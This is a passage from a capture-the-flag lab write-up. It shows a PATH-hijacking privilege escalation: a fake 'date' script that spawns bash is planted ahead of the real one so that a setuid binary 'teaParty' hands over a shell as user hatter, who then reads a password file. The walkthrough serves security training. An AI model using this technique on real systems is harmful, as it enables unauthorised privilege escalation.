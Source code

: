 ```text
```

The interesting line from the strings output is:

```text
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

We can see date is being executed without an absolute path, so we can use the same technique as before and force our own file to be executed instead. Create our own date file and make it executable:

```text
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/bash

rabbit@wonderland:/home/rabbit$ chmod +x date

rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rwxr-xr-x 1 rabbit rabbit    23 Jun  7 19:05 date
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
```

Now add our folder to the path:

```text
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Now run the binary:

```text
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

Excellent, that worked and we are now the user hatter. Have a look around:

```text
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)

hatter@wonderland:/home/rabbit$ cd /home/hatter

hatter@wonderland:/home/hatter$ ls
password.txt

hatter@wonderland:/home/hatter$ cat password.txt
<<HIDDEN>>
```
